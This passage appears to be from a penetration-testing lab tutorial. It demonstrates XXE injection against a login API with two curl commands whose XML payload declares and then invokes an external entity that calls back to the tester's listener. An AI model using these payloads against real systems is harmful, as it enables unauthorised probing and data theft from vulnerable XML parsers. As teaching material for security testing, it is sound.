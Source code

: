 Now let us make an API call containing the payload we crafted above.
```
curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>test@test.com</email><password>P@ssw0rd123</password></root>'
```
We notice no connection being made to our listener. This is because we have defined our external entity, but we haven't tried to use it. We can do that as follows
```
curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'
```
After the call to the API, you will notice a connection being made to the listener.
The API is vulnerable to XXE Injection.